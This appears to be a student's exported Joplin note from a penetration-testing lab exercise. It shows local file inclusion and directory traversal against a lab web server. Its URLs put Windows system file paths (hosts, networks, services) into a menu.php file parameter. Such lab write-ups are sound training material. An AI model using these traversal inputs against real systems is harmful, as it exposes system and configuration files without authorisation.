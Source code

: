 9.4.3.2

# 9.4.3.2
##  9.4.3.2.1. Exploit the directory traversal vulnerability to read arbitrary files on your Windows 10 lab machine.

Browse to the menu page
http://192.168.214.10/menu.php?file=current_menu.php
![9f659bbe6d0d635f17b793cdf4a4c849.png](:/0006b13af2464846b06d625748938ca0)

Test for LFI by replacing 'current_menu.php' with 'old.php'
http://192.168.214.10/menu.php?file=old.php
![d09b49361301f468f29252588e78f454.png](:/84d2d1a831b84ad19acf74a80e3d96cc)

Instead of old.php, try putting typical Windows path\file name
http://192.168.214.10/menu.php?file=c:\windows\system32\drivers\etc\hosts
![b908221d4972ab1da865601ce6a03080.png](:/36607429c52c455ca6e714b0294b63b2)

http://192.168.214.10/menu.php?file=c:\windows\system32\drivers\etc\networks
![20937d5439ddf9c12d23a9bea1e77f61.png](:/ff783bac756b47d68aa9c0fc5d641e2f)

http://192.168.214.10/menu.php?file=c:\windows\system32\drivers\etc\services
![a6a58ab885882c593a01643ee0a572a8.png](:/971b2dcdf8b54449826164dbc90ea15c)





id: 5d052ec8c32d4b338d630e5fc54d1830
parent_id: 33a465e6698d4fac9c4f8149b7813316
created_time: 2020-09-20T13:38:41.719Z
updated_time: 2020-09-20T21:51:11.869Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-09-20T13:38:41.719Z
user_updated_time: 2020-09-20T21:51:11.869Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1